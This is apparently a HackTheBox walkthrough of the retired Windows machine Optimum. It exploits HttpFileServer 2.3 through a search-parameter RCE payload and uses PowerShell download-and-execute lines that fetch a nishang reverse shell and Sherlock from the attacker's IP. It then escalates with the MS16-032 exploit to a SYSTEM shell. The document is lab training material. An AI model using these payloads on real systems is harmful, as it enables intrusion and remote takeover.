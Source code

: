 ```yaml
---
title: Optimum - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-21 12:00:00 
categories: [HackTheBox,Windows]
tags: [sherlock,nishang]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Optimum/00-banner.png
  width: 596
  height: 351
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Optimum` a retired windows machine from HackTheBox rated easy. Without further ado, let’s begin.
# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan                                   
# Nmap 7.91 scan initiated Wed Oct 20 09:58:51 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.1.127
Nmap scan report for 10.129.1.127
Host is up (0.12s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 20 09:59:11 2021 -- 1 IP address (1 host up) scanned in 20.58 seconds
```
There one port open `80:HTTP`.
## HTTP Enumeration
Let's check it out.

![01-web](/assets/img/HTB/Optimum/01-web.png)

The web site is a `HttpFileServer 2.3` which has a RCE where the attacker can execute commands in a search action.
```text
http://10.129.1.127/?search=%00{.payload.}
```
# Initial Foothold
I used [nishang](https://github.com/samratashok/nishang) to create a reverse shell.

```console
$ cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 rev.ps1
$ echo 'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.75 -Port 443' >> rev.ps1
```
With a python HTTP server and a netcat listener port I executed the next command using PowerShell in the `sysNative` directory to get a 64-bit shell.
```text
%00{.exec|C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).downloadString('http://10.10.14.75/rev.ps1').}
```

![02-burp](/assets/img/HTB/Optimum/02-burp.png)

# Privilage Escalation
To get the system information from the target machine just run `systeminfo`

![03-sysinfo](/assets/img/HTB/Optimum/03-sysinfo.png)

Clone [Sherlock](https://github.com/rasta-mouse/Sherlock) and add this line `Find-AllVulns` at the end to call that function.

![04-sherlock](/assets/img/HTB/Optimum/04-sherlock.png)

Execute it on the victim machine. 
```text
IEX(New-Object Net.WebClient).downloadString("http://10.10.14.75/Sherlock.ps1")
```
It give us a list with some vulnerabilities of this windows version, the most interesting is `MS16-032`.

![05-sherlock](/assets/img/HTB/Optimum/05-sherlock.png)

With this [exploit](https://github.com/EmpireProject/Empire/blob/master/data/module_source/privesc/Invoke-MS16032.ps1), the only thing we have to do is add this line at the end to run a reverse shell:

```text
Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.75/rev.ps1')"
```

![06-empire](/assets/img/HTB/Optimum/06-empire.png)

And we get the shell in our listener port 443.

![07-nc](/assets/img/HTB/Optimum/07-nc.png)

We got root.txt  

![08-root](/assets/img/HTB/Optimum/08-root.png)

That’s it for now guys. Until next time.
# Resources
- https://www.thewindowsclub.com/sysnative-folder-in-windows-64-bit
- https://github.com/EmpireProject/Empire
